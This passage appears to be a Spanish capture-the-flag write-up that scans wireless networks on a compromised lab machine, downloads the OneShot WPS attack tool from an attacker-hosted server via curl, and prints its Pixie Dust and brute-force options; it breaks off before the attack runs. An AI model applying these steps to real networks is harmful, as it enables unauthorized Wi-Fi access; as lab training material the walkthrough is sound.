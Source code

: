 * Nota:
    
1. **iw** : este es el comando principal para interactuar con extensiones inalámbricas y configurar dispositivos inalámbricos en Linux.
2. **dev wlan0** : aquí, dev se utiliza para especificar que estamos trabajando con un dispositivo inalámbrico y wlan0 es el nombre de la interfaz inalámbrica de su sistema. El nombre exacto de la interfaz puede variar en diferentes sistemas y configuraciones.
3. **scan** : esta parte del comando le indica a iw que realice un escaneo de las redes inalámbricas disponibles en el área.

En resumen, iw dev wlan0 scan ejecuta un escaneo de red inalámbrica utilizando la interfaz wlan0 de su sistema, lo que le permite ver las redes disponibles y obtener información detallada sobre ellas, como su SSID, intensidad de la señal, canales utilizados y tipos de seguridad implementados.


```bash
SSID: plcrouter
BSS 02:00:00:00:01:00(on wlan0)
```

Entonces ahora realizaremos un ataque de fuerza bruta con [Oneshot.py](https://github.com/kimocoder/OneShot) lo descargamos en nuestra maquina de atacante y la transferimos a la maquina victima, entonces montamos un servidor en python y lo descargamos en la maquina victima, como la maquina victima no tiene wget lo hacemos con curl
```bash
root@attica04:~# curl 10.10.16.62/oneshot.py -o oneshot.py
```
le damos permisos de ejecucion vemos la manera de usarlo
```bash
root@attica04:/tmp# python3 oneshot.py -h
usage: oneshot.py [-h] -i INTERFACE [-b BSSID] [-p PIN] [-K] [-F] [-X] [-B] [--pbc] [-d DELAY] [-w] [--iface-down]
                  [--vuln-list VULN_LIST] [-l] [-r] [--mtk-wifi] [-v]

OneShotPin 0.0.2 (c) 2017 rofl0r, modded by drygdryg

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Name of the interface to use
  -b BSSID, --bssid BSSID
                        BSSID of the target AP
  -p PIN, --pin PIN     Use the specified pin (arbitrary string or 4/8 digit pin)
  -K, --pixie-dust      Run Pixie Dust attack
  -F, --pixie-force     Run Pixiewps with --force option (bruteforce full range)
  -X, --show-pixie-cmd  Always print Pixiewps command
  -B, --bruteforce      Run online bruteforce attack
  --pbc, --push-button-connect
                        Run WPS push button connection
  -d DELAY, --delay DELAY
                        Set the delay between pin attempts
  -w, --write           Write credentials to the file on success
  --iface-down          Down network interface when the work is finished
  --vuln-list VULN_LIST
                        Use custom file with vulnerable devices list
  -l, --loop            Run in a loop
  -r, --reverse-scan    Reverse order of networks in the list of networks. Useful on small displays
  --mtk-wifi            Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit (for internal Wi-Fi
                        adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
  -v, --verbose         Verbose output

Example: oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
```
Lo ejecutamos pasandole el BSSID y la interfaz de red, con el parametro -K 
```bash
```